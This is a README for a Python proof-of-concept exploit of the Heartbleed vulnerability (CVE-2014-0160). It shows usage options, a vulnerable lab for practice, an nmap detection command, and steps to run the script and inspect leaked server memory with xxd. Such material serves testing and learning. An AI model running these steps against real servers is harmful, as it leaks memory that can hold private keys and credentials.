 # heartbleed
A Heartbleed (CVE-2014-0160) PoC in Python 3

```
usage: heartbleed_.py [-h] -s HOST [-p PORT] [-f OUTPUT_FILE]

Heartbleed PoC

options:
  -h, --help            show this help message and exit
  -s HOST, --host HOST  hostname or IP address
  -p PORT, --port PORT  TCP port number  (default is 443)
  -f OUTPUT, --output_file OUTPUT output file name

```

1. If you want a vulnerable server to test, you can set it up from [here](https://github.com/jas9reet/heartbleed-lab "Heartbleed lab")
2. Test for heartbleed vulnerability using nmap:
```
  $ nmap -v -p8443 --script ssl-heartbleed $IP
```

3. Install the script if you haven't already, change to directory:
```
  $ git clone https://github.com/H4R335HR/heartbleed/ && cd heartbleed
```
  
4. Run the script:
```
With Default options
  $ python3 heartbleed.py -s $IP
OR with custom port and outfile name
  $ python3 heartbleed.py -s $IP -p 8443 -f output.bin
```
5. After running the script, check the output file using xxd to see the results:
```
  $ xxd *.bin | less
```
